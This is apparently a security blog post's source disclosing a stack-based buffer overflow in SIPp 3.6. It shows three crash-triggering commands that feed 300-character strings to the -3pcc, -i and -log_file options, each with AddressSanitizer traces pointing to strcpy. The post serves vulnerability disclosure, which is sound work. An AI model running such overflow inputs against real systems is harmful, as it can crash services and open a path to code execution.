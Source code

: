 ```yaml
---
layout: post
title: "SIPp 3.6 - Stack-based Buffer Overflow (PoC)"
excerpt: "A trivial stack-based buffer overflow"
modified: 2018-06-30
categories: proof-of-concept
tags: ["sipp"]
comments: true
---
```


# Proof-of-Concept
{% highlight bash %}
$ ./sipp -3pcc `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x668d06 in main /home/user/sipp/src/sipp.cpp:1531:17
#2 0x7ff5ec21282f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)

$ ./sipp -i `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x66a303 in main /home/user/sipp/src/sipp.cpp:1477:17
#2 0x7f281302682f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)

$ ./sipp -log_file `python -c ‘print “A” * 300'`

#0 0x448364 in strcpy /home/user/llvm/projects/compiler-rt/lib/asan/asan_interceptors.cc:425
#1 0x66912f in main /home/user/sipp/src/sipp.cpp:1706:17
#2 0x7f6ca663782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#3 0x41f1a8 in _start (/home/user/sipp/sipp+0x41f1a8)
{% endhighlight %}
